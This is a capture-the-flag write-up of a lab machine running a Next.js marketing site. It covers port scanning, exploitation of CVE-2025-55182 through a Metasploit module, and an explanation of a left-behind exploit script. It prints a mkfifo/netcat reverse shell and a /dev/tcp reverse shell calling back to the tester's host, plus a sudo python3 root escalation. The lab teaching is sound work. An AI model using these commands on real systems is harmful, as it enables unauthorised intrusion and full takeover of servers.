







## Scenario

> My Dearest Hacker,
> 
> Valentine's Day is fast approaching, and "Romance & Co" are gearing up for their busiest season.
> 
> Behind the scenes, however, things are going wrong. Security alerts suggest that "Romance & Co" has already been compromised. Logs are incomplete, developers defensive and Shareholders want answers now!
> 
> As a security analyst, your mission is to retrace the attacker's, uncover how the attackers exploited the vulnerabilities found on the "Romance & Co" web application and determine exactly how the breach occurred.
> 
> You can find the web application here: `http://MACHINE_IP:3000`
> 
> With love,  
> Chief Inspector Valentine 💕

Access via: `http://10.113.156.58:3000`

## Initial Reconnaissance

Opened the target in the browser. It's a single-page marketing site for a fictional romance-planning company ("Romance & Co.") — a hero section, an About section, a Featured Experiences section with bookable packages, and a Contact form at the bottom asking for name, email, experience type, and a message. No other pages were reachable by clicking around.


Checked the stack with Wappalyzer before going further:



Next.js 16.0.6 stood out immediately as a version worth checking for known CVEs later.

### Port Scanning

Ran a full TCP port sweep first to make sure nothing was missed outside the obvious web port:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.113.156.58      
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 12:48 +0200
Nmap scan report for 10.113.156.58
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 26.82 seconds
```

**Breakdown:**

- `-p-` scans all 65535 TCP ports rather than nmap's default top-1000, so nothing on an unusual port is missed

Only two ports open: `22` (SSH) and `3000`, the latter labelled `ppp` by nmap's default service guess.

Followed up with service/version detection and default scripts against just those two ports:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p22,3000 -sV -sC 10.113.156.58      
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 12:49 +0200
Nmap scan report for 10.113.156.58
Host is up (0.037s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 09:e7:b0:8a:38:a7:12:4b:fc:98:5f:8c:af:f4:78:c6 (ECDSA)
|_  256 8a:7e:52:81:5c:08:f8:93:1b:d4:79:08:93:28:11:39 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: Next.js
|     ETag: "pjux6x9npj1xgt"
|     Content-Type: text/html; charset=utf-8
—SNIP—
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Breakdown:**

- `-p22,3000` restricts the scan to just these two ports, now that the full sweep identified them
- `-sV` probes open ports to determine the service/version running
- `-sC` runs nmap's default script set (banner grabs, common enumeration scripts) against each port

The `ppp?` label on port 3000 was a red herring — nmap's fingerprint database doesn't recognise it, and the raw response in the fingerprint strings clearly shows a Next.js application (`X-Powered-By: Next.js`, standard HTTP/200 with HTML content) rather than a PPP service. 

Confirmed this with a web search, which agreed port 3000 is a common default for Node/React dev servers and gets mislabelled as `ppp` by nmap for that reason.




`whatweb` corroborated the Next.js identification and picked up the two email addresses rendered on the page:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ whatweb http://10.113.156.58:3000
http://10.113.156.58:3000 [200 OK] Country[RESERVED][ZZ], Email[hello@romanceandco.com,john@example.com], HTML5, IP[10.113.156.58], Script, Title[Romance &amp; Co. | Unforgettable Romantic Experiences], UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time], X-Powered-By[Next.js]
```

### Dead End — XSS on the Contact Form

With the site being single-page and the only user input being the Contact form, tried that first: submitted test values (`test` / `test@test.com` / "Custom Experience" / `test`) through Burp Suite with intercept on, to see what request the form actually fired and whether reflected input might be injectable.





No GET or PUT request carrying the submitted parameters was ever intercepted — the form didn't appear to make a traditional request with the field values attached in an interceptable way. Moved on from this line, since there was nothing to inject into.



### Directory Fuzzing (Background)

Kicked off a recursive content discovery scan in parallel while pursuing other leads, since the site had no visible secondary pages:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://10.113.156.58:3000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -ic -c -recursion 
```

**Breakdown:**

- `-u http://10.113.156.58:3000/FUZZ` sets the target URL with `FUZZ` as the injection point
- `-w ...:FUZZ` supplies the wordlist and binds it to the `FUZZ` keyword
- `-ic` ignores comments in the wordlist file
- `-c` colours the output for readability
- `-recursion` recurses into discovered directories automatically

This ran in the background without producing a lead that was acted on — the version-specific vulnerability path (below) resolved the challenge before this needed to be revisited.

## Exploitation — CVE-2025-55182 (React2Shell)

With the stack confirmed as Next.js 16.0.6, searched for known vulnerabilities in that version and found CVE-2025-55182 — a critical pre-authentication RCE affecting React Server Components in Next.js, nicknamed "React2Shell" (also referred to as "React4Shell" in some early coverage, echoing the Log4Shell naming convention).



Confirmed an exploit existed in Searchsploit:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit --cve CVE-2025-55182   
 Exploit Title                                                    |  Path
--------------------------------------------------------------------------------
React Server 19.2.0 - Remote Code Execution                       | multiple/webapps/52506.py
```

**Breakdown:**

- `--cve CVE-2025-55182` searches Searchsploit's local exploit database for entries tagged with this specific CVE identifier, rather than a free-text search

Rather than pulling that script directly, checked Metasploit, which had a matching module:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfconsole -q          
msf > search CVE-2025-55182

   #  Full Name                                                 Rank       Check  Name
   -  ---------                                                 ----       -----  ----
   0  exploit/multi/http/react2shell_unauth_rce_cve_2025_55182  excellent  Yes    Unauthenticated RCE in React Server Components (React2Shell)
     \_ target: Next.js - Unix Command
     \_ target: Next.js - Windows Command
     \_ target: Waku - Unix Command
     \_ target: Waku - Windows Command

msf > use 0
[*] Using configured payload cmd/unix/reverse_nodejs
msf exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) > set RHOSTS 10.113.156.58
RHOSTS => 10.113.156.58
msf exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) > set RPORT 3000
RPORT => 3000
msf exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) > set LHOST —REDACTED—
LHOST => —REDACTED—
msf exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) > set TARGETURI http://10.113.156.58:3000/
TARGETURI => http://10.113.156.58:3000/
```

**Breakdown:**

- `search CVE-2025-55182` queries Metasploit's module database for anything tagged with this CVE
- `use 0` loads the matching module by its index in the search results
- `set RHOSTS 10.113.156.58` sets the target host
- `set RPORT 3000` sets the target port to match where the Next.js app is actually listening (module default is 80)
- `set LHOST —REDACTED—` sets the local attacking machine's IP, for the reverse shell payload to call back to
- `set TARGETURI http://10.113.156.58:3000/` sets the path on the target where the vulnerable React app lives (module default is `/`, confirmed correct for this target)

Fired the exploit:

```shell
msf exploit(multi/http/react2shell_unauth_rce_cve_2025_55182) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (—REDACTED—:4444 -> 10.113.156.58:58832) at 2026-10-30 13:13:01 +0200
```

Thought the session had hung, but it had actually dropped straight into a shell as `daniel` in `/app`:

```shell
whoami
daniel
pwd
/app
uname -a 
Linux romance 6.8.0-1044-aws #46~22.04.1-Ubuntu SMP Tue Dec  2 12:52:18 UTC 2025 x86_64 Linux
sudo -l
Matching Defaults entries for daniel on romance:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for daniel:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User daniel may run the following commands on romance:
    (root) NOPASSWD: /usr/bin/python3
```

`sudo -l` immediately flagged the privesc path: `daniel` can run `/usr/bin/python3` as root with no password.

## Stabilising the Shell

The initial Metasploit command shell was limited (no job control, breaks on `Ctrl+C`), so moved to a proper reverse shell for stability. First attempted a `/dev/tcp` bash-style reverse shell:

```shell
sh i >& /dev/tcp/—REDACTED—/3333 0>&1 
/bin/sh: can't create /dev/tcp/—REDACTED—/3333: nonexistent directory
```

### Dead End — `/dev/tcp` Reverse Shell

This failed because `/dev/tcp` is a Bash built-in feature, not an actual filesystem path — it only works when the shell interpreting the command is Bash with that feature compiled in. The target's `/bin/sh` here doesn't support it, hence "nonexistent directory."

Switched to a POSIX-compatible `mkfifo` + `nc` reverse shell instead, which doesn't depend on shell-specific built-ins:

```shell
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc —REDACTED— 3333 >/tmp/f
```

**Breakdown:**

- `rm -f /tmp/f` removes any pre-existing file at that path so `mkfifo` doesn't fail
- `mkfifo /tmp/f` creates a named pipe (FIFO) at `/tmp/f`, which acts as a two-way conduit between the commands either side of it
- `cat /tmp/f` reads whatever is written into the pipe
- `|/bin/sh -i 2>&1` pipes that into an interactive shell, with stderr redirected into stdout so error output is also sent back
- `|nc —REDACTED— 3333` pipes the shell's combined output to netcat, connecting out to the listener
- `>/tmp/f` redirects netcat's incoming data (i.e. commands typed on the attacking machine) back into the FIFO, completing the loop back to `cat`

Caught it on a listener set up beforehand:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nc -lvnp 3333
listening on [any] 3333 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.156.58] 39904
/bin/sh: can't access tty; job control turned off
/app $ 
```

**Breakdown:**

- `-l` puts netcat into listen mode
- `-v` verbose output, to confirm when a connection lands
- `-n` skips DNS resolution
- `-p 3333` sets the local port to listen on

### Upgrading to a Full TTY

The shell still lacked job control and a proper terminal, so upgraded it using the standard PTY technique:

```shell
/app $ python3 -c 'import pty; pty.spawn("/bin/sh")'  
/app $ ^Z      
zsh: suspended  sudo nc -lvnp 3333
                                                                                                                                                                                                                                            
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg  
[1]  + continued  sudo nc -lvnp 3333
```

**Breakdown:**

- `python3 -c 'import pty; pty.spawn("/bin/sh")'` spawns `/bin/sh` inside a pseudo-terminal, giving the remote shell proper TTY behaviour
- `^Z` backgrounds the netcat listener on the attacking machine (without killing the connection), dropping back to the local Kali shell
- `stty raw -echo` puts the local terminal into raw mode (so keystrokes like `Ctrl+C` pass through to the remote shell instead of being caught locally) and disables local echo (since the remote shell will now echo input itself)
- `fg` brings the backgrounded netcat session back to the foreground

Matched the terminal type and window size to the local terminal for proper rendering:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo $TERM        
xterm-256color
┌──(—REDACTED—㉿kali)-[~]
└─$ stty size         
52 236
```

```shell
/app $ export TERM=xterm-256color
/app $ stty rows 52 columns 236
```

**Breakdown:**

- `echo $TERM` / `stty size` (run locally) retrieve the local terminal's type and dimensions
- `export TERM=xterm-256color` (run on the remote shell) sets the remote shell's terminal type to match, enabling things like colour and proper handling of control sequences
- `stty rows 52 columns 236` (run on the remote shell) sets the remote shell's reported terminal size to match the local one, so full-screen tools render correctly

## Capturing the User Flag

With a stable shell, listed the working directory:

```shell
/app $ ls
Dockerfile          components          exploit.py          next-env.d.ts       node_modules        package.json        public              tsconfig.json
app                 docker-compose.yml  lib                 next.config.js      package-lock.json   postcss.config.js   tailwind.config.js
```

`exploit.py` stood out as worth investigating, but decided to secure the user flag first before going further down that path.

Searched broadly for a flag file:

```shell
/app $ find / -type f -name *flag*.txt 2>/dev/null
```

No results. Tried a more targeted filename pattern instead:

```shell
/app $ find / -type f -name *user*.txt 2>/dev/null
/home/daniel/user.txt
/app $ cat /home/daniel/user.txt
—REDACTED—
```

### Question 1 — What is the user flag?

**Answer:** `—REDACTED—`

## Privilege Escalation

Examined `exploit.py`, which turned out to be the same Python exploit script for CVE-2025-55182 used earlier, left on the box — presumably the attacker's own tooling, left behind after the original compromise. It builds a crafted `multipart/form-data` POST request with a React Server Components payload embedded in the `then`/`__proto__` prototype chain, which gets evaluated server-side to run `process.mainModule.require('child_process').execSync(...)` with an attacker-supplied command, then exfiltrates the output via a crafted `NEXT_REDIRECT` error whose `Location` header carries the command's result.

Given `sudo -l` had already shown `daniel` could run `/usr/bin/python3` as root with no password, tried running the exploit script itself via sudo, on the theory it might reveal something more or simply demonstrate the privesc path directly:

```shell
/app $ sudo python3 exploit.py
Traceback (most recent call last):
  File "/app/exploit.py", line 13, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'
```

### Dead End — Running `exploit.py` via Sudo

This failed because the `python3` sudo was granted for is a different interpreter/environment than whatever `daniel`'s normal shell uses, and it doesn't have the `requests` library installed.

Instead, consulted GTFOBins for the standard `sudo` privilege escalation payload for `python`/`python3`:



```shell
/app # sudo python -c 'import os; os.execl("/bin/sh", "sh")'
/app # whoami
root
```

**Breakdown:**

- `sudo python -c '...'` runs an inline Python one-liner as root via sudo
- `import os` brings in the `os` module, needed for `execl`
- `os.execl("/bin/sh", "sh")` replaces the current process with `/bin/sh`, inheriting root's privileges rather than Python's own — this is the actual escalation, since the spawned shell now runs as root instead of as the sudo'd Python interpreter

## Capturing the Root Flag

```shell
/app # find / -type f -name *flag*.txt 2>/dev/null
/app # find / -type f -name *root*.txt 2>/dev/null
/root/root.txt
/app # cat /root/root.txt
—REDACTED—
```

The generic `*flag*.txt` pattern again returned nothing, consistent with the earlier user-flag search — this machine names its flags `user.txt` and `root.txt` specifically rather than using the word "flag" anywhere in the filename.

### Question 2 — What is the root flag?

**Answer:** `—REDACTED—`